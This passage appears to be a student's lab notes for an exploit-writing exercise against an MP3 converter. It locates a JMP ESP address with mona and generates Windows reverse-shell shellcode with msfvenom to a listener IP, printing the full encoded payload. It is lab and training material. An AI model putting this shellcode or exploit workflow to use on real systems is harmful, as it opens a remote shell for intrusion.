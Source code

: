 Run `!mona find -s “\xff\xe4” -m “MSA2Mutility03.dll”`. We get 2 pointers. We will choose 0x1003789d because it does not contain bad chars.
![bcafd96383eb89ffb5f5d8ad3898e94f.png](:/ef7d95fcef354e65b3113b45f8b2401c)

We go to the address 0x1003789d and visually confirm it has the JMP ESP, then set a breakpoint on it.
![69cf4bba39cb12a66a3ea00b6cd4606f.png](:/5f527e1d56cb4696a30e6920cd85e20c)

Run the code, and we hit the breakpoint
![984c81255fc8c9469cacbdb4505805bf.png](:/81081021e4244b7eb720e313221f3633)

### Generate the shellcode 
Generate using msfvenom
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.119.214 lport=443 -f c -e x86/shikata_ga_nai -b "\x00\x09\x0a\x1a\x25"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xdb\xd1\xd9\x74\x24\xf4\x5a\x33\xc9\xb1\x52\xb8\xc6\x01\xb8"
"\xb1\x31\x42\x17\x83\xc2\x04\x03\x84\x12\x5a\x44\xf4\xfd\x18"
"\xa7\x04\xfe\x7c\x21\xe1\xcf\xbc\x55\x62\x7f\x0d\x1d\x26\x8c"
"\xe6\x73\xd2\x07\x8a\x5b\xd5\xa0\x21\xba\xd8\x31\x19\xfe\x7b"
"\xb2\x60\xd3\x5b\x8b\xaa\x26\x9a\xcc\xd7\xcb\xce\x85\x9c\x7e"
"\xfe\xa2\xe9\x42\x75\xf8\xfc\xc2\x6a\x49\xfe\xe3\x3d\xc1\x59"
"\x24\xbc\x06\xd2\x6d\xa6\x4b\xdf\x24\x5d\xbf\xab\xb6\xb7\xf1"
"\x54\x14\xf6\x3d\xa7\x64\x3f\xf9\x58\x13\x49\xf9\xe5\x24\x8e"
"\x83\x31\xa0\x14\x23\xb1\x12\xf0\xd5\x16\xc4\x73\xd9\xd3\x82"
"\xdb\xfe\xe2\x47\x50\xfa\x6f\x66\xb6\x8a\x34\x4d\x12\xd6\xef"
"\xec\x03\xb2\x5e\x10\x53\x1d\x3e\xb4\x18\xb0\x2b\xc5\x43\xdd"
"\x98\xe4\x7b\x1d\xb7\x7f\x08\x2f\x18\xd4\x86\x03\xd1\xf2\x51"
"\x63\xc8\x43\xcd\x9a\xf3\xb3\xc4\x58\xa7\xe3\x7e\x48\xc8\x6f"
"\x7e\x75\x1d\x3f\x2e\xd9\xce\x80\x9e\x99\xbe\x68\xf4\x15\xe0"
"\x89\xf7\xff\x89\x20\x02\x68\x76\x1c\x7b\xbe\x1e\x5f\x83\x3f"
"\x64\xd6\x65\x55\x8a\xbf\x3e\xc2\x33\x9a\xb4\x73\xbb\x30\xb1"
"\xb4\x37\xb7\x46\x7a\xb0\xb2\x54\xeb\x30\x89\x06\xba\x4f\x27"
"\x2e\x20\xdd\xac\xae\x2f\xfe\x7a\xf9\x78\x30\x73\x6f\x95\x6b"
"\x2d\x8d\x64\xed\x16\x15\xb3\xce\x99\x94\x36\x6a\xbe\x86\x8e"
"\x73\xfa\xf2\x5e\x22\x54\xac\x18\x9c\x16\x06\xf3\x73\xf1\xce"
"\x82\xbf\xc2\x88\x8a\x95\xb4\x74\x3a\x40\x81\x8b\xf3\x04\x05"
"\xf4\xe9\xb4\xea\x2f\xaa\xc5\xa0\x6d\x9b\x4d\x6d\xe4\x99\x13"
"\x8e\xd3\xde\x2d\x0d\xd1\x9e\xc9\x0d\x90\x9b\x96\x89\x49\xd6"
"\x87\x7f\x6d\x45\xa7\x55";
```
